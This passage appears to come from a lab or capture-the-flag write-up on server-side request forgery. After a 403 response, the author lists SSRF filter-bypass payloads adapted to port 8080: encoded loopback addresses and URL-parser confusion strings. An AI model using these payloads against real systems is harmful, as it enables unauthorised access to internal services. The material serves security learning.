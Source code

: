 ![image 7](https://github.com/user-attachments/assets/d0219392-8974-4060-b2e3-06652e2a41ed)

403 fobidden, means parameter is working well but, maybe there were some protection against SSRF, so that we can’t request for [localhost](http://localhost), but there were other ways to bypass this.

[SSRF cheat sheet](https://highon.coffee/blog/ssrf-cheat-sheet/)

Since these payloads are provided for port `80`, but we only know that `8080` is actually a running service, we modify the list and provide it here:

```bash
127.0.0.1:8080
127.0.0.1:443
127.0.0.1:22
127.1:8080
0
0.0.0.0:8080
localhost:8080
[::]:8080/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:8080/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:8080\@127.2.2.2:8080/
127.1.1.1:8080\@@127.2.2.2:8080/
127.1.1.1:8080:\@@127.2.2.2:8080/
127.1.1.1:8080#\@127.2.2.2:8080/
```
